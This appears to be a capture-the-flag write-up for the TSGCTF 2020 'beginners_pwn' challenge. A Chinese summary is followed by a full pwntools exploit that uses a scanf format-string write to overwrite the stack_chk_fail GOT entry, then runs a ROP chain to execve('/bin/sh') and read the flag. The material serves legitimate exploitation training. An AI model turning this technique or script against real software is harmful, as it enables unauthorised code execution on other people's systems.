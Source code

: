 ```yaml
---
title: TSGCTF 2020 beginners_pwn
date: 2020-07-12 00:00:00
categories:
- CTF/Pwn
tags: ROP scanf 格式化字符串
---
```


> 题面非常简单，scanf格串参数可控。但无任何输出函数，无法泄露libc，不过程序syscall指令。利用方法：scanf格串构造任意地址写，写stack_chk_fail的GOT表，然后继续利用scanf栈溢出触发canary报警，控制流劫持，但是只找到两个能利用rdi和rsi的gadget，无法直接控制rax和rdx。最后在程序中找到一段gadget(0x4011DE)能间接控制rax和rdx，不过需要劫持rbp才能满足这段约束的条件。总之最后一顿ROP到syscall上即可execve("/bin/sh",0,0)。

- attachment：[beginners_pwn](https://xuanxuanblingbling.github.io/assets/attachment/tsgctf/beginners_pwn)
- ctftime：[beginners_pwn](https://ctftime.org/task/12272)

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
myelf = ELF("./beginners_pwn")
io = process(myelf.path)
#io = remote("35.221.81.216",30002)

def aaw(addr,data):
    io.sendline('%7$s%s\x00\x00'+p64(addr))
    io.sendline(data)
    
# (Addr:0x404018) ROP start and new stack here 
payload  = p64(0x4012be)        # pop*3;ret
payload += p64(0)               # padding
payload += "/bin/sh\x00"        # /bin/sh
payload += p64(0x3b)            # *(*(rbp-0x18)) exevce
payload += p64(0x404030)        # *(rbp-0x18)
payload += p64(0)*3             # padding
payload += p64(0x4012c3)        # pop rdi;ret
payload += p64(0x404028)        # /bin/sh addr
payload += p64(0x4012c1)        # pop rsi;pop r15;ret
payload += p64(0)*2             # rsi;r15
payload += p64(0x40118F)        # syscall

# modify stack_chk_fail in GOT
stack_chk_fail = 0x404018
aaw(stack_chk_fail,payload)

# trigger stack smash
payload  = p64(0x40112d)        # pop rbp
payload += p64(0x404050)        # mov rbp to 0x404050
payload += p64(0x4011DE)        # rbx = 0,rax = *(*(rbp-0x18)),leave and return
io.sendline(payload)
io.sendline("cat flag")
io.interactive()
```